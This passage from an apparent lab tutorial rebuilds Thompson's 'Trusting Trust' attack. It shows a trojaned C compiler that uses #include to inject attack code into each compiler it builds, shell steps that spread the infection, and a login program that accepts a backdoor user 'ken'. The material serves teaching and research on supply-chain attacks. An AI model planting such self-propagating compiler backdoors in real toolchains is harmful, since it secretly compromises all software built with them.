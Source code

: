 With the new `#include` macro added, we need to run `generate-attack-array` again to update our
`compile_attack` definition. Now in our `trojan-cc2.c`, we can simply include our attack code using `#include "attack.c"`:

```c
static void compile(char *program, char *outname) {
    FILE *fp = fopen("./temp-out.c", "w");
    assert(fp);

#include "attack.c"

    fprintf(fp, "%s", program);
    fclose(fp);

    // gross, call gcc.
    char buf[1024];
    sprintf(buf, "gcc ./temp-out.c -o %s", outname);
    if(system(buf) != 0)
        error("system failed\n");
}
```

Now what will happen when we compile a clean compiler `step2/identity-cc.c` is, `trojan-cc2` will inject our attack code defined in `compile_attack` right after the `assert`. Thus the attack code ends up in the new compiler, and the new compiler is again compromised. The new compiler, still containing the (compiled) attack code, will continue to infect compilers that it compiles.

And now we are done! To verify that it works, we can run the following:

```shell
# Compile trojan-cc2.c
gcc -Og -g -Wall -Wno-unused-variable trojan-cc2.c -o trojan-cc2

# Use trojan-cc2 to compile the clean compiler
./trojan-cc2 ../step2/identity-cc.c -o cc-attacked

# Use cc-attacked to compile the clean compiler
./cc-attacked ../step2/identity-cc.c -o cc-attacked2

# Compare the binaries -- it's ok if they don't match,
# as long as the next step works!
diff cc-attacked cc-attacked2

# Compile the login program with cc-attacked2
./cc-attacked2 ../step2/login.c -o login-attacked

# Run the login program
./login-attacked
```

And when we enter `ken` as the username, we log in successfully!

```text
user: ken
successful login: <ken>
```

What have we achieved? Now we have a compiler binary that even when given clean virgin compiler source code, will still produce hacked binaries. As long as people use prebuilt binaries to build next-version compilers, the hack will remain forever in the system compiler, undetected.
